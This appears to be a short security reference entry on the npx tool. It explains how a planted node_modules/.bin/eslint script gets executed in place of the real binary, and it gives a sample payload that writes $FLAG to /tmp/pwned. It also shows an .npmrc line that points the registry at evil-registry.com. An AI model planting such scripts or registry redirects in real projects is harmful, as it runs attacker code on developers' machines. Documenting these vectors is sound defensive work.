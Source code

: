 ```yaml
---
title: npx
tags:
- cli
- input-file
- eval-js
references:
- https://www.npmjs.com/package/npx
- https://docs.npmjs.com/cli/v11/commands/npx
files: [node_modules/.bin/, .npmrc]
---
```


`npx` is a command-line tool that executes binaries from npm packages without needing to install them globally. It runs the command by first checking in the local project's `node_modules/.bin` directory, then a central cache, and finally by temporarily downloading the package from the npm registry if not found elsewhere.

If `npx eslint` is run, an attacker could write a file `node_modules/.bin/eslint` so that it is executed instead of eslint legitimate binary. 

```js
#!/usr/bin/env node
const { exec } = require('node:child_process');
exec('echo "$FLAG" > /tmp/pwned');
```

`npx` does not have its own dedicated configuration file, but instead inherits its settings directly from npm's `.npmrc` files. This means any custom registries, proxy settings, or authentication tokens you have configured for npm will be automatically used by npx when it fetches and runs packages.

If `.npmrc` redirects to an attacker-controlled registry, npx binaries will be downloaded from the malicious registry. 

```
registry=https://evil-registry.com
```